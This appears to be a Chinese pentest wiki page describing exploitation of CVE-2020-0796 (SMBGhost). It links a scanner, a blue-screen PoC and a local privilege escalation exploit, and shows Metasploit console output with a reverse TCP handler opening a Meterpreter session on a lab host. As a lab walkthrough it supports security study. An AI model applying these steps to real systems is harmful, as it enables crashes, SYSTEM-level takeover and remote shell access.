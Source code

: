 ![](http://wikioss.peiqi.tech/vuln/windows-18.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

###  CVE-2020-0796 目标探测(奇安信)

使用奇安信的漏洞扫描来探测

[奇安信 CVE-2020-0796 扫描下载](http://dl.qianxin.com/skylar6/CVE-2020-0796-Scanner.zip)

![](http://wikioss.peiqi.tech/vuln/windows-19.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

### CVE-2020-0796 蓝屏EXP

[Github CVE-2020-0796 蓝屏EXP 下载](https://github.com/eerykitty/CVE-2020-0796-PoC)

运行脚本后目标成功蓝屏

![](http://wikioss.peiqi.tech/vuln/windows-20.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

### CVE-2020-0796 本地提权EXP

[Github CVE-2020-0796 本地提权EXP 下载](https://github.com/danigargu/CVE-2020-0796)

运行应用程序后弹出cmd窗口为 system权限

![](http://wikioss.peiqi.tech/vuln/windows-21.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

或者使用 MSF的内置EXP windows/local/cve_2020_0796_smbghost 来本地提权 

```
msf6 exploit(multi/handler) > set lhost 192.168.142.19
lhost => 192.168.142.19
msf6 exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on 192.168.142.19:4444 
[*] Sending stage (200262 bytes) to 192.168.142.61
[*] Meterpreter session 2 opened (192.168.142.19:4444 -> 192.168.142.61:51757) at 2020-11-08 15:28:20 +0800

meterpreter > 
meterpreter > getuid
Server username: DESKTOP-RL1VAD8\wy
meterpreter > background
msf6 exploit(multi/handler) > search cve_2020

Matching Modules
================

   #  Name                                                          Disclosure Date  Rank       Check  Description
   -  ----                                                          ---------------  ----       -----  -----------
   0  auxiliary/admin/sap/cve_2020_6287_ws_add_user                 2020-07-14       normal     Yes    SAP Unauthenticated WebService User Creation
   1  exploit/linux/misc/cve_2020_13160_anydesk                     2020-06-16       normal     Yes    AnyDesk GUI Format String Write
   2  exploit/windows/local/cve_2020_0668_service_tracing           2020-02-11       excellent  No     Service Tracing Privilege Elevation Vulnerability
   3  exploit/windows/local/cve_2020_0787_bits_arbitrary_file_move  2020-03-10       excellent  Yes    Background Intelligent Transfer Service Arbitrary File Move Privilege Elevation Vulnerability
   4  exploit/windows/local/cve_2020_0796_smbghost                  2020-03-13       good       Yes    SMBv3 Compression Buffer Overflow


Interact with a module by name or index. For example info 4, use 4 or use exploit/windows/local/cve_2020_0796_smbghost                                                                                

```